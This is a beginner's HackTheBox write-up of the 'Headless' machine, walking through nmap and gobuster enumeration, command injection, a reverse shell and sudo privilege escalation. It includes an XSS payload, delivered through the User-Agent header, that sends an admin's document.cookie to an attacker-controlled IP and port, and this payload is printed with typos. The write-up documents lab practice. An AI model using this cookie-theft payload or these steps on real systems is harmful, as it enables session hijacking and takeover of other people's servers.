 # HackTheBox Headless Easy Machine Write Up
<div align="center">
  <img src=https://github.com/user-attachments/assets/2ffbf2f2-5397-44d4-840a-3040409e956c>
</div>

## Machine Description

Headless is a retired easy machine from HackTheBox. This machine is good to learn cookie stealing using XSS and gain root privilege using allowed sudo file. To be honest, when I'm solving this, I followed a walkthrough on Youtube from PinkDraconian channel because I am a newbie and I am not familiar with XSS. If you want to check out his youtube, here is the link [PinkDraconian](https://www.youtube.com/watch?v=JT4bYzMUDMs).
Okay, let's start!.

## Enumartion and Reconnaissance

Like always in penetration testing, we need to do enumaration and recon first. I did Port scanning with `nmap` and directory enumaration with `gobuster`.

<br/><br/>

### Port Scanning with Nmap

Payload:

    nmap <MACHINE_IP> -p- -sC -T5 -O -oN nmap1.txt

<br/><br/>


<div align="center">
  <img src=https://github.com/user-attachments/assets/ca563449-3797-43af-9ef5-d6f05bcb18ca>
<br/><br/>
</div>

<div align="center">
  **Nmap Output**
</div>

From the nmap output, I got a few ports but only 2 that are open, **ssh** on port 22 and **upnp** on port 5000. Next, I tried to see if there's a web page for upnp on port 5000. So, i enter it on my web browser. Turns out, it did has a web page.
<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/06fc25d0-94fd-4e77-a111-5db7dc02c189>
<br/><br/>
</div>

<div align="center">
  **UPNP web page**
</div>

It says that we can send a question so I clicked on that button and redirected to another page in `/support`.
<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/ab9307cd-11d1-42f5-ab9d-72220f6cda10>
<br/><br/>
</div>

<div align="center">
 **/support page**
</div>
<br/><br/>

This could be vulnerable to XSS attack.

### Directory Enumeration with GoBuster

After find out that the port 5000 has a web page and a `/support` directory, I tried to look for another directory that might be available.

<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/a134a427-97a1-4153-b81c-4c8f4b84c2d2>
</div>

<br/><br/>

<div align="center">
  **Gobuster output**
</div>

<br/><br/>

From `gobuster` output, I got two directory, one is the `/supoort` directory and another one is `/dashboard` but it only allowed authorized user.


## Exploitation

### Cookie Stealing with XSS attack

So, after finding another directory, I inspected the web on `/support` and check on storage and found this web use `is_admin` cookie. When I checked it, it says mine is user so i need to find admin's cookie and change it into my browser.

So, next thing I did was trying to submit a question but on the message, I filled it with XSS payload.

First XSS payload:

    <script>alert()</script>

But, the web knew that it was XSS and report it.

So, by following **PinkDraconian** on Youtube, he changed the `User Agent` from Mozilla (web browser agent that he used) into XSS payload. The XSS payload that he used was something that when an admin see the malicious post, it will give an error and automatically write a document with image tag and source to attacker's server and send the admin's cookie to attacker (something like that, you can see his explanation it's very good and clear).

Following him with the payload, I used the same payload as him.

Payload:

    <img src=x onerror='dociument.write("<img src=http://<YOUR_IP:<YOUR_PORT>/Cookies + "document.cookie + ">")'

I changed my User Agent with the payload and the message with previous alert() payload. I wait for a few seconds and got the admin's is_admin cookie.

<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/337dadc2-369a-4450-b86a-095185c3db86>
</div>
<br/><br/>

<div align="center">**admin's cookie**</div>
<br/><br/>

Next, I changed my cookie into admin's cookie and enter the /dashboard directory successfully redirected into administrator dashboard.

<div align="center">
  <img src=https://github.com/user-attachments/assets/72b7e3d9-b66a-4c1d-9f7f-537dfbec1dc6>
</div>
<br/><br/>

<div align="center">
  **Administrator Dashboard**
</div>

In the administrator dashboard, we can generate report with a date. So, I looked up with `Burpsuite` to see what is the payload that were sent to the server. Turns out it was just date. By following **PinkDraconian**, I found out that we can try command injection by adding command after the date, `date;<yourcommand>`.

So, I tried with `ls` command to see can I see files in this directory.

<div align="center">
  <img src=https://github.com/user-attachments/assets/339cf741-8977-42a2-8358-108580212add>
</div>
<br/><br/>

After found out that I can use command to see the files, I used reverse shell payload. I used a python shortest payload and make it URL encoded from [revshells](https://revshells.com) following the walkthrough.

Turn on listener with netcat and send it, I got the shell.

<div align="center">
  <img src=https://github.com/user-attachments/assets/fbce13bf-8bce-4caf-ae49-afc91e10ac62>
</div>
<br/><br/>

Because I already a user not www-data, I can open the user.txt

### Privilege Escelation

To do privilege escelation, I ran `sudo -l` to see if user **dvir** allowed to sudo something, and it did.

<div align="center">
  <img src=https://github.com/user-attachments/assets/1808e5b9-c062-45b4-a9f3-bdd462f7a55a>
</div>
<br/><br/>

User dvir is allowed to run `/usr/bin/syscheck`. When I open the file wiith `cat`, It says that if we run this file, it will run .sh file, which in this case is `./initdb.sh`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/8fdfe1d8-9219-4a29-9625-3d0637a26185>
</div>
<br/><br/>

Next, I overwite that file into `bash`, so when it's run by me, it will run bash and grant us to root.

![Screenshot 2024-11-03 110037](https://github.com/user-attachments/assets/261cfe30-2322-42dc-a8b0-a45f207f60e7)
<br/><br/>

After overwriting, I ran it and got root access and read the root.txt

![Screenshot 2024-11-03 110127](https://github.com/user-attachments/assets/ebbaefa8-c998-4157-9230-f6ddbf45ed95)


Okay, that's all. Thank you for [PinkDraconian](https://www.youtube.com/watch?v=JT4bYzMUDMs) for the walkthrough, you guys can check out his video its very thorough and easy to understand. Thank you for reading!


